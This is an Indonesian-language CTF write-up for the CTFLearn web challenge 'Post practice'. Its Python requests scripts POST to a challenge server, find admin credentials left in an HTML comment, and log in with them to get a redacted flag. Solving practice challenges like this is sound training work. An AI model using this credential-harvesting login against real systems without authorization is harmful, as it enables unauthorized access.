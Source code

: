 ```yaml
---
Title: CTFLearn write-up - Post practice (web)
Date: 2022-02-02
Tags:
- ctf
- writeup
Description: "secara garis besar kita harus melakukan post request terhadap url http://165.227.106.113/post.php seperti..."
Author: 0xHynz
---
```


Post practice

`This website requires authentication, via POST. However, it seems as if someone has defaced our site. Maybe there is still some way to authenticate? http://165.227.106.113/post.php`

secara garis besar kita harus melakukan post request terhadap url `http://165.227.106.113/post.php` seperti penjelasan dalam
challenge ini, yaitu website ini membutuhkan authentication lewat POST.

ketika hanya mengunjungi situsnya dengan browser, maka akan terdapat tulisan seperti ini

`This site takes POST data that you have not submitted!`

disini saya mencoba untuk melihat secara keseluruhan dari output yang saya terima melalui fitur view-source, namun
saya mencoba melihat isi webnya hanya dengan library request dipython saja.


```
from requests import post


url = "http://165.227.106.113/post.php"

r = post(url)
print(r.headers,r.status_code)
print()
print(r.text)
```

maka saya menerima output seperti ini

```
{'Server': 'nginx/1.4.6 (Ubuntu)', 'Date': 'Wed, 02 Feb 2022 09:08:07 GMT', 'Content-Type': 'text/html', 'Transfer-Encoding': 'chunked', 'Connection': 'keep-alive', 'X-Powered-By': 'PHP/5.5.9-1ubuntu4.22', 'Content-Encoding': 'gzip'} 200

<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf -->
```

disini saya sudah bisa menebak apa selanjutnya, kita diperlihatkan username dan password namun
kita menerima pesan bahwa post data belum kita isi.


```
from requests import post

url = "http://165.227.106.113/post.php"

r = post(url)
print(r.headers,r.status_code)
print()
print(r.text)

data = {'username':'admin','password':'71urlkufpsdnlkadsf'}
print (post(url,data=data).text)
```

saya menambahkan data yang diberikan hasil dari source code tersebut, yaitu username dan password.
maka flag akan kita dapatkan.

```
{'Server': 'nginx/1.4.6 (Ubuntu)', 'Date': 'Wed, 02 Feb 2022 09:08:07 GMT', 'Content-Type': 'text/html', 'Transfer-Encoding': 'chunked', 'Connection': 'keep-alive', 'X-Powered-By': 'PHP/5.5.9-1ubuntu4.22', 'Content-Encoding': 'gzip'} 200

<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf -->
<h1>flag{............}</h1>
```


